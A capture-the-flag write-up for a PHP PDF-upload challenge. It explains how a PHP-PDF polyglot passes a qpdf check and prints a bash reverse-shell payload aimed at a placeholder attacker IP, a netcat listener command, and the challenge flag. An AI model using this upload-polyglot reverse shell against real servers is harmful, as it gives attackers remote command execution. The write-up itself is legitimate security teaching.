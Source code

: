 # Supreme PDF Hoster

## 200 Points - Web & Forensics

*Greetings Agent*
*One of our agents, Agent Gayyang managed to infiltrate the servers and obtained sensitive information of Snail Speed Corporation, which we suspect has conducted horrible crimes against humanity. However, their security team was right on his trail, and to prevent himself from being discovered, he quickly dumped the file into a random PDF hosting site controlled by someone who is paranoid about privacy and refuses to cooporate with us. Site Here. (Link has been removed, please access it from the platform)

*Your mission, should you choose to accept, is to infiltrate the PDF Hosting site and retrieve the file that is now held and hidden by the paranoid site owner. We have managed to obtain the PHP source code of the site as the owner bragged at how his site was "impenetrable even if we have the source code".*

We are also given the source code of the webpage below:

```php
<?php

$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
$uploadOk = 1;
// Check if image file is an actual PDF. Those damn hackers can't get past these hahahahaha!
if(isset($_POST["submit"])) {
  $file = $_FILES["fileToUpload"]["tmp_name"];
$output = "";
$file = escapeshellarg($file);
$command = "qpdf --check " . $file. " 2>&1";
$output = shell_exec($command);

if (strpos($output, "file is damaged") === false) {
		if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
   		 echo "Success! Your PDF file is now availble for viewing ";
		echo "<a href='uploads/".$_FILES["fileToUpload"]["name"]."'>here</a>";
		echo ". Thank you for using surpreme PDF Hoster";
	}
	else { 	
		echo "Whoops, error while uploading PDF file. Please contact tkai";
	}
}
else {
	echo "Please upload a valid PDF file! No tricks!";
}
}

?>
```

There is a shell_exec in the source code. However, the filename is first passed through escapeshellargs(), not to mention it is only a temp fall name and not the actual file name. So executing arbitrary commands via shell_exec() seems to be out of the option. (*Maybe you guys can make use of it idk, not a web expert ​*:stuck_out_tongue:)

When we upload a PDF file, it gives us a link to the PDF file where we can view it. It also seems like it **does not check for the file extension**, but it does **pass it through `qpdf --check`**, which will report any errors if there are errors in the PDF, or if it is not a valid PDF file. So passing in a php file won't seem to work. (Or will it? :thinking:)

My intention for this challenge was to explore the use of polyglots. In particular, a `PHP-PDF Polyglot` file, which will open as a valid PDF file with not a single error, and behave as a PHP file when renamed to a .php file. If you read about more about Polyglot files [here](https://fahrplan.events.ccc.de/congress/2014/Fahrplan/system/attachments/2562/original/Funky_File_Formats.pdf), you will learn that PDF files **do not care about when their headers start**. Hence, you can insert PHP code at the front of a PDF file and it won't complain the slightest bit.

Here is an example of an exploit:

```php
//exploit2.php
//Note: it uses /bin/sh instead of /bin/bash, so the following payload is necessarry
<?php echo(exec("bash -c 'bash -i >& /dev/tcp/<Attack_server_ip>/4444 0>&1'")); ?>
%PDF-1.5
%ÐÔÅØ
3 0 obj
<<
...
```

After we upload exploit2.php, we can then run

```bash
nc -lnvp 4444
```

on a public server (or portforwarded home network) to receive the connection, then visit the reverse shell to run it and get a shell on the server.

After getting the shell on the server, moving back 2 times `../../`, will reveal a `Snail_speed_corp_trade_secrets.pdf`. Opening it reveals a quote talking about **secrets hidden within it**. **Binwalking** the PDF will reveal a jpeg hidden inside, and opening it reveals the flag:

```
IRS{P0lY_g0t?_300L!}
```



### (Intended) Learning Points:

- Polyglot Files :smile:
- Simple reverse shell basics

